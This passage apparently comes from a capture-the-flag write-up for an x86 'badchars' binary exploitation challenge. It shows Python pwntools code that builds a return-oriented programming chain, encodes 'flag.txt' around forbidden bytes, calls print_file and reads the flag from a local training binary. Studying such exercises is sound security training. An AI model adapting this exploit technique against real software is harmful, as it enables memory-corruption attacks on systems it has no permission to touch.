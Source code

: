 ```python
        # address to modify
        ebp = p32(addr + i)
        payload += p32(pop_ebx) + ebx
        payload += p32(pop_ebp) + ebp
        payload += p32(sub_addr)
    return payload

# add 2 to every character
def encode_str(s):
    blist = bytearray(s)
    # add 2 to every character
    for i in range(0, len(blist)):
        blist[i] += 2
    return blist
    
# add function args (x86)
def add_args(pop_addr, args):
    payload = p32(pop_addr)
    for a in args:
        payload += p32(a)
    return payload

# build payload
payload = b'A' * 44
fname = encode_str(b'flag.txt')
payload += write_str(write_addr, fname)
payload += decode_str(write_addr, fname)
# call print_file
payload += p32(print_file_addr)
payload += add_args(pop_ebp, [write_addr])

# check if payload is valid
for i in range(len(payload)):
    if payload[i] in invalid_bytes:
        print('invalid char', '"'+chr(payload[i])+'"', 'at index', i)
        exit()

# send payload + receive flag
io = process('./badchars32')
io.send(payload)
io.recvuntil(b'Thank you!\n')
flag = io.recvline()
log.success(flag.decode('utf-8'))
```

![flag](/images/badchars/x86-flag.png)
